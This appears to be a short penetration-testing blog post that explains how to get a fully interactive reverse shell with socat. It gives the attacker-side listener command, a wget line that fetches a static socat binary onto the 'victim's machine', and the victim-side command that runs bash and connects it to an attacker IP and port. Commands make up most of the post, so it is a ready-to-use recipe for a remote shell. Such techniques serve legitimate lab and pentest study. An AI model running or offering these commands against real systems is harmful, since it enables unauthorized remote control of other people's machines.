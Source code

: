 ```yaml
---
layout: post
comments: true
title: "Get Full Interactive reverse Shell With Socat"
tags: ['rce','socat','reverse-shell']
---
```



## Introduction
Today we are going to see a nice method to get an interactive reverse shell with socat.
A few adventages of use interactive shells are the next ones:
- Ctrl + C work just fine, when you press it it doesn't exit the shell, just stop the process is running
- Autocompletation (Tabuation), in normal reverse shells tabulation just add a tabulation, in interactive shells tabs can autocomplete your code.

## Installing socat
If we use security-based distros like Kali or Parrot, we should have socat installed, in any case, to install on the attacker's machine:
In our system:
```bash
sudo apt install socat
```

Socat may not be installed in the victim's machine so we first we have to install it.<br>
In this [repo][repo] we have a lot of binaries ready to be downloaded and executed, socat is one of this:
```bash
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```


## Getting reverse shell

In $PORT we can choose a free port like 443

In our attacker's machine:
```bash
socat file:'/dev/tty',raw,echo=0 tcp-listen:$PORT
```


In our victim's machine
```bash
./socat exec:'bash -li',pty, stderr, setsid, sigint, sane tcp:$ATTACKERS_IP:$PORT
```


[repo]: https://github.com/andrew-d/static-binaries